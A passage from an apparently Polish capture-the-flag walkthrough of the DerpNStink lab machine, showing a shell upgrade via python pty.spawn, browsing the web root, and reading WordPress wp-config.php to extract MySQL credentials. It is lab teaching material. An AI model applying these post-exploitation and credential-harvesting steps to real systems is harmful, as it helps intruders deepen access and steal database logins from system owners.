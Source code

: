 `python -c 'import pty;pty.spawn("/bin/bash")'`

I voilà! Mamy pełnowymiarową powłokę"

```
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@DeRPnStiNK:/$   
```
Wejdźmy do katalogu `/var/www/html` i zobaczmy co na nas czeka
```
www-data@DeRPnStiNK:/$ cd /var/www/html
cd /var/www/html
www-data@DeRPnStiNK:/var/www/html$ 
```

Wylistujmy zawartość
`ls -l`
```
drwxr-xr-x 2 root     root   4096 Nov 11  2017 css
-rw-r--r-- 1 root     root 108987 Nov 11  2017 derp.png
-rw-r--r-- 1 root     root   1298 Nov 12  2017 index.html
drwxr-xr-x 2 root     root   4096 Nov 11  2017 js
drwxr-xr-x 2 root     root   4096 Nov 11  2017 php
-rw-r--r-- 1 root     root     53 Nov 11  2017 robots.txt
-rw-r--r-- 1 root     root 222045 Nov 11  2017 stinky.png
drwxrwxrwx 2 root     root   4096 Nov 12  2017 temporary
drwxr-xr-x 5 www-data root   4096 Dec 12  2017 weblog
drwxr-xr-x 2 root     root   4096 Jan  9  2018 webnotes
```

Zobaczmy co dalej `cd weblog` -> `ls`
```
www-data@DeRPnStiNK:/var/www/html$ cd weblog
cd weblog
www-data@DeRPnStiNK:/var/www/html/weblog$ ls
ls
index.php        wp-blog-header.php    wp-cron.php        wp-mail.php
license.txt      wp-comments-post.php  wp-includes        wp-settings.php
readme.html      wp-config-sample.php  wp-links-opml.php  wp-signup.php
wp-activate.php  wp-config.php         wp-load.php        wp-trackback.php
wp-admin         wp-content            wp-login.php       xmlrpc.php
www-data@DeRPnStiNK:/var/www/html/weblog$ 
```
Ciekawość nakazuje zajrzeć do pliku _wp-config.php_ (zazwyczaj zawiera dane dot. konfiguracji MySQL takie jak prefixy, klucze i dane dostępowe)
`less wp-config.php`

```
:
/** MySQL database username */
:
define('DB_USER', 'root');
:

:
/** MySQL database password */
:
define('DB_PASSWORD', 'mysql');
:

:
/** MySQL hostname */
:
define('DB_HOST', 'localhost');
:
```

